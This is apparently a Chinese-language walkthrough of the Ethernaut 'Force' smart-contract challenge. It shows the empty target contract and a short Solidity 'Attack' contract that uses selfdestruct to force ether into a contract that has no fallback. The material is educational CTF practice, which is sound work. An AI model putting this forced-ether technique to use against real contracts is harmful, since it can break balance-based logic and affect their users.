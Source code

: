 # 7.Force

## 题目描述

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645310166968-61bf7c00-6a02-4a84-b26a-f895aa72be1e.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

题目要求为该合约余额大于0，而源码中不存在 fallback函数，导致合约不能通过常规交易接收以太币。

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645310742977-9e519e94-8580-4bce-b8fd-f08ab9203723.png)

我们在官方文档中可以看到一个函数介绍，可以在没有 fallback的情况下强制对合约进行转账

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645310796703-eff3f936-8b01-4abc-bac0-d636118592aa.png)



那我们的思路就是部署一个自毁合约，对这个合约转账后进行自毁对目标合约强制转入以太币

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645311086893-c7687fa0-ea7f-428e-98b2-f3fc236265fd.png)

部署攻击合约

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

contract Attack{
    
    address public addr;
    
    function setAddr(address x) public {
        addr = x;
    }
    
    function kill() public{
        address payable desaddr = payable(address(addr));
        selfdestruct(desaddr);
    }
    receive() external payable {}
}
```

向攻击合约地址转入 0.001 ETH

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645312161704-d95d2483-00d4-4c05-bfaf-dce922feb7a8.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645312130166-8bf4b2ae-3e55-44f4-90e1-8d7d6f152e0c.png)

向目标合约调用自毁函数

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645312357912-61ba040b-d64c-473c-85cd-7a55d0b6881e.png)

查看交易hash是否成功

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645312376428-a376d0b7-f266-4525-ad66-937df46c3b46.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645312386621-eb7a524d-962c-42bc-812f-40006baca411.png)

目标合约成功被强制转入ETH